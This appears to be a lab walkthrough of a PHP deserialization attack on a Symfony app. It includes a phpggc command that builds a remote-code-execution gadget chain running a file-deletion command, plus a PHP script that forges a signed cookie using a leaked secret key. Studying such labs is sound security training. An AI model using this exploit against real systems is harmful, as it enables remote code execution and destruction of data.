

First of all, we know we are in PHP because the token is a serialized PHP object:

Also, if we send a bad crafted cookie, a Symfony error appears, leaking the version: 


We can use this to create a PHP object for Symfony, with the phpggc tool:
`./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`

This will generate a Base-64 encoded serialized object that exploits an RCE gadget chain in Symfony to delete the file.

But we need to hash the command with a key, as Symfony has this structure in the cookies. We need the SecretKey for this, but a developer leaked the key information: 

In this route we can see the key information: 


With this information we can craft the cookie with the following PHP script: 
```php
<?php $object = "OBJECT-GENERATED-BY-PHPGGC"; 
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP"; 
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}'); 
echo $cookie;
```

This will output a valid, signed cookie to the console, with the expected format. 


Attaching this cookie as the request gives  us the completion of the lab:
